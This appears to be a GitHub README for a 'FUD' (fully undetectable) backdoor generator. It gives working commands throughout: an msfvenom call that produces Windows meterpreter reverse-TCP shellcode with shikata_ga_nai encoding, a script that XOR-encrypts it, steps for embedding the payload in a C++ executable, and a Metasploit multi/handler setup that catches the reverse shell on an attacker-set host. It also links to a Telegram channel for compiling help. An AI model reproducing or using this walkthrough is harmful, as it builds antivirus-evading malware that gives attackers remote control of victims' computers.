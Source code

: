 # FUD Generator with Python Cipher Encryption 🔐✔
```
sudo git clone https://github.com/PushMeUp97/FUDGeneratorPythonCipher.git
cd FUDGeneratorPythonCipher
```
# Generate Backdoor with ShellCode
```
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=<YOUR_KALI_IP> LPORT=<YOUR_SERVER_PORT> -f raw -o raw_cipher.txt
```
# Encode the ShellCode with XOR Encryption
```
python xor_encryptor_cipher.py raw_cipher.txt > xor_shellcode.txt
```
# Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```
char b[] = /*xor_shellcode*/
```
# Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
```
https://t.me/PushtheScriptX
```
# Configure the Multi-Handler to catch the reverse connection
```
msfconsole
```
```use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set StageEncoder x86/shikata_ga_nai
set LHOST <YOUR_KALI_IP>
set LPORT <YOUR_SERVER_PORT>
show options
exploit
